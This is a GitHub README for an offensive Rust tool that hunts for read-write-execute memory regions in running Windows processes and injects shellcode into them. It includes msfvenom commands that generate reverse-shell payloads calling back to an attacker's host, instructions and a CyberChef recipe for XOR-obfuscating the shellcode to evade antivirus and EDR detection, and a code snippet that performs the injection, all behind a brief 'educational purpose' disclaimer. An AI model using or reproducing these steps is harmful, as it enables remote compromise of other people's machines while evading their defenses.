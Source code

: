 # RWX-Hunter


Enumerating RWX Protected Memory Regions for Code Injection.

> [!NOTE]
> Developed with the intension of using this tool only for educational purpose.

Generate shellcode (example):

msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f num LHOST=\<IP\> LPORT=\<PORT\>\
msfvenom -p windows/shell_reverse_tcp -a x86 -f num LHOST=\<IP\> LPORT=\<PORT\>

Obfuscate it with static xor key for signature based EDR/AV (example key: 0xC 0x3 0xFA 0x8 0x3)
<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'0xC0x30xFA0x80x3'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)Find_/_Replace(%7B'option':'Simple%20string','string':','%7D,',%20',true,false,true,false)&oeol=FF>

Inspired by: <https://www.ired.team/offensive-security/defense-evasion/finding-all-rwx-protected-memory-regions>

## Example

```rust
let mut hunter = RWXhunter::new(vec![0], vec![0], vec![12, 3, 250, 8, 3].into());
while hunter.find_next_candidate().is_ok() {
    if hunter.inject().is_ok() {
        return Ok(());
    }
}
```

## Installation

```bash
cargo run
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)

